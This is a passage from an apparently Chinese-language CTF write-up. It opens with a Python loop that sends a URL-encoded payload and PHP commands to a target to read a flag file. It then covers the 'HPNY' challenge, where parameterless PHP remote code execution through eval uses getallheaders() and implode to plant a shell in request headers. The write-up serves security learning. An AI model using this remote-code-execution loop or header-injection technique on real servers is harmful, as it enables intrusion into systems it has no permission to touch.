 ```python
cmd = 'var_dump(file_get_contents("fl4g1sH3re.php"));'

while True:
    payload = urllib.parse.quote_plus(shellcode) + '&0=' + cmd
    print(payload)
    url = BASE_URL + payload
    print(url)

    r = requests.get(url)
    print(r.text)

    cmd = input('php > ')
```

## 2.HPNY

![image-20210110101534814](/Users/miewang/Library/Application Support/typora-user-images/image-20210110101534814.png)

可以看到是一个类似祈福的

首先看有个eval执行位点

有趣的是要求传参数只能是英文字母 和一些符号，可能你已经想到了无参数rce

如果我们使用system 来ls列目录

再用readfile读取会不会直接把文件源码读出来呢

![image-20210110103629057](/Users/miewang/Library/Application Support/typora-user-images/image-20210110103629057.png)

答案是否定的

当ls显示所有文件时，它仅将最后一个文件名传递给readfile函数，其他的函数什么exec passthru也是这样

### First solution

在php中 getallheaders()函数会读取所有标头

![image-20210110104212966](/Users/miewang/Library/Application Support/typora-user-images/image-20210110104212966.png)

php中的implode函数指出

![image-20210110104523501](/Users/miewang/Library/Application Support/typora-user-images/image-20210110104523501.png)

所以我们可不可以用这种方法在头里面写shell呢

implode(getallheaders())

![image-20210110104722567](/Users/miewang/Library/Application Support/typora-user-images/image-20210110104722567.png)

发现不能如期读取，想了想 试了试burp

![image-20210110104904122](/Users/miewang/Library/Application Support/typora-user-images/image-20210110104904122.png)

但这回我们可以看到是500了
